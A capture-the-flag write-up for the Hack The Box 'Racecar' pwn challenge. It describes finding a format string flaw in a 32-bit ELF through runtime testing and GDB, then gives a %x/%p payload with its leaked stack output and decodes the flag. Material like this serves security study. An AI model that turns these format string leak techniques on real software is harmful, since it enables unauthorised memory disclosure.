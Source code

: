 # HTB Challenges (PWN) - Racecar 

Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!

## Challenge Materials

- racecar : executable
	- ELF 32-bit, dynamically linked, not stripped
- ip and port : htb instance to interact with challenge

## Runtime analysis

1. Prompts for name and nickname
2. Prompts for either 1. Car info or 2. Car selection
	- 1 prints details about the cars and reprompts
	- 2 prompts to select car 1 or 2
3. After choosing car, prompts for race type. Either 1. Highway or 2. Circuit
4. After choosing race type, either wins or loses then exits

###  Winning path 
- Input: Select car (2), Coupe (1), Circuit (2) wins each time
- Running locally prompts for something to "say to the press" but also says cannot open flag.txt
- Create local flag.txt
- Rerun and prompt works **potential point of vulnerability**

###  Bad Input
- Buffer overflows seem to be avoided. Echo of press message cuts off at 44 characters
- **Address reference** 
	- use "%p" for press message. Returns address of variable
	- Providing %p as the press message prints a hex value. **vuln found**

## Dynamic Analysis (Using GDB)

- info functions: main, menu, car\_info, info, car\_menu, race\_type, setup, banner
- car\_menu seems to be what handles the majority of input, disassemble

### Disassemble car\_menu

- calls fopen() at car\_menu <+764>, we know that running the executable locally without flag.txt printed an error that it was unable to open, so looking near this will likely get us the flag
- also calls fgets() at car\_menu <+828>, this would be where the program prompts the user after winning the face
- three calls to printf() follow fgets(). Since we were able to enter a %p and get the pointer address back, likely printf() was used insecurely
- set breakpoints at each and see which is called > car\_menu <+881>
- **format string vulnerability**

## Exploitation

- Fill flag.txt with "AAAAA"... we will be able to tell where the flag is being stored easily (A -> 0x41)
- Leak more data using %p%p%p ... on media message input
	- with 15 "%p"'s -> 0x566af2000x1700x5658ed850x30x440x260x10x20x5658f96c0x566af2000x566af3800x414141410x5658000a0xf7de12a90x6713f400
	- flag seems to be on the stack at the 12th memory location

- We will need to chew through 11 memory locations then print the flag

### Payload

- %x%x%x%x%x%x%x%x%x%x%x FLAG: %p%p%p%p%p%p%p%p%p%p%p 
- 571121c0170565c8d851572612565c996c571121c057112340 FLAG: 0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f
- 7b = {, 42 = B, 54 = T, 48 = H. The system is **little endian**

### Automate

- See **racecar-solution.py**

